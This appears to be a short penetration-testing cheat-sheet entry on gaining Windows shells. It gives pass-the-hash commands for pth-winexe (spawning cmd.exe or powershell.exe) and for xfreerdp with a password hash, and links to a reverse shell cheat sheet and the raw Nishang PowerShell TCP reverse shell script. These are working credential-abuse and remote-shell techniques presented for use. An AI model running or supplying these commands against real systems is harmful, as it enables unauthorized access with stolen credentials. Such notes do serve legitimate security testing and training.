 ## Windows
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#powershell

### pth-winexe
```bash
sudo pth-winexe -U web/<user>%<hash>  //<IP> cmd.exe 
sudo pth-winexe -U web/<user>%<hash>  //<IP> powershell.exe 
```

### xfreerdp
```bash
xfreerdp /u:<user> /pth:<hash> /d:<domain> /v:<IP>
```

https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1